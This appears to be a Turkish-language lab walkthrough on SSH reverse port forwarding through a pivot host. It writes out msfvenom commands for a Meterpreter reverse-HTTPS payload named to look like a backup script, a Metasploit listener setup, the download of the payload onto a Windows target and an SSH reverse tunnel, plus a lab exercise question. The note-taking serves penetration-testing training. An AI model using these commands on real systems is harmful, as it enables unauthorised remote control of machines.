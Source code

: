 ### Bölüm Özet : 

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```shell-session
msf6 > use exploit/multi/handler


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https

msf6 exploit(multi/handler) > set lhost 0.0.0.0

msf6 exploit(multi/handler) > set lport 8000

msf6 exploit(multi/handler) > run
```

```shell-session
$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

```shell-session
$ python3 -m http.server 8123
```

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```


Soru : Ubuntu sunucu Pivot hostuna atanan hangi IP adresi Windows sunucu hedefi ile iletişime izin verir? (Biçim: x.x.x.x)

Cevap : 


1- Msfvenomdan payload oluştururken dikkat etmesi gerekilen nokta 172.x.x.x olan ip adresini yazmalıyız çünkü windows makina bu adreste .
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```


1- İlk olarak reverse shell'imizi oluşturduk ve gerekli parametreleri listenerları girdik . 
![Pasted image 20241004135202.png](/img/user/resimler/Pasted%20image%2020241004135202.png)

2- Hedef ubuntu sunucumuza oluşturduğumuz payloadı yolluyoruz.
![Pasted image 20241004135351.png](/img/user/resimler/Pasted%20image%2020241004135351.png)

3- Ardından ubuntu sunucusunda python server oluşturuyoruz ve Windows'a proxychain ile köprü oluşturup . Windows makinaya rdp ile bağlanıyoruz . 
